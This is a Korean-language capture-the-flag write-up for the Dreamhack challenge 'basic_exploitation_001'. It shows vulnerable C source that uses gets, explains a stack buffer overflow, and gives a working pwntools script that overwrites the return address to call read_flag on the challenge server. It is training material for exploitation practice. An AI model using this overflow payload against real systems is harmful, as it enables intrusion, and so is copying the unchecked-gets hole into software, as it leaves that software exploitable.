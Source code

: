 ## 📍basic_exploitation_001

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_001)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 "flag" 파일을 읽으세요.  
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.  
플래그의 형식은 DH{...} 입니다.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```


### 소스코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {
    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

![](Attachments/8C48088D-2EA8-4291-9662-01C8E1925881.png)

![](Attachments/6B5CA851-367C-469D-A02D-8A4961104865.png)

`read_flag` 함수의 시작 주소: `0x080485b9`

`gets` 함수에서 입력의 크기를 제한하고 있지 않기 때문에 버퍼 오버플로우 공격이 가능하다.
128바이트의 버퍼와 4바이트의 EBP(Extended Base Pointer)를 더미 데이터로 채우고, 그 이후 호출된 위치로 돌아갈 때 RET로 `read_flag` 함수의 시작 주소를 주면 `read_flag` 함수를 실행할 수 있다.


`$ python3 be1.py`

```python
from pwn import *

conn = remote('host3.dreamhack.games', 11943)

payload = b'A' * 0x84
payload += p32(0x080485b9)

conn.sendline(payload)

conn.interactive()
```

![](Attachments/6C625355-E5B7-438B-A7AB-7D20F3DB1A8E.png)

🚩